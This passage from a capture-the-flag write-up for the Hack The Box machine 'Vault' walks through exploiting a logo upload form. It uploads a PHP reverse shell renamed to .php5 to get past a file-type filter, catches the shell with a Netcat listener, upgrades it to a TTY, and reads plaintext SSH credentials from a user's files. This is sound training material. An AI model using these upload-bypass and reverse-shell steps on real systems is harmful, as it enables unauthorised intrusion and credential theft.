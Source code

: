 !\[Graphical user interface, text, application

Description automatically generated\]\(../.gitbook/assets/1.png\)

ault admin panel

Clicking on "Server Settings" leads to a page under construction. "Design Settings" however, returns a page that allows the logo to be changed. We can upload a PHP file that will give us a reverse shell. There are webshells already installed on Parrot Sec OS located in the directory /usr/share/webshells. We will use the PHP one:

`/usr/share/webshells/php/php-reverse-shell.php`

Copying this file to our working directory and renaming it reverse.php, we can try and upload it using the logo upload feature. The upload function restricts the file types that can be uploaded and so if you try and upload the PHP file you get an error returned saying "sorry that file type is not allowed". However, if you change the extension of the file to another valid PHP extension "reverse.php5", that is allowed. Start a Netcat listener to catch the reverse shell:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Vault]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
```

We can now navigate to the URL:

`http://vault.htb/sparklays/design/uploads/reverse.php5`

This then returns a reverse shell which you can upgrade to a full TTY using the Python and bash commands:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTL-Z
bg
stty raw -echo
fg
fg
```

We now have initial access as the user www-data. Exploring the /home directories, you see two users; "alex" and "dave". On exploring the "dave" directory, you find a sub-directory "Desktop" that has files which contain ssh credentials for the user "dave":

```bash
www-data@ubuntu:/home/dave/Desktop$ ls -al
total 20
drwxr-xr-x 2 dave dave 4096 Sep 3 2018 .
drwxr-xr-x 18 dave dave 4096 Sep 3 2018 ..
-rw-rw-r-- 1 alex alex 74 Jul 17 2018 Servers
-rw-rw-r-- 1 alex alex 14 Jul 17 2018 key
-rw-rw-r-- 1 alex alex 20 Jul 17 2018 ssh
www-data@ubuntu:/home/dave/Desktop$ cat Servers
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
www-data@ubuntu:/home/dave/Desktop$ cat key
itscominghome
www-data@ubuntu:/home/dave/Desktop$ cat ssh
dave
Dav3therav3123
www-data@ubuntu:/home/dave/Desktop$
```
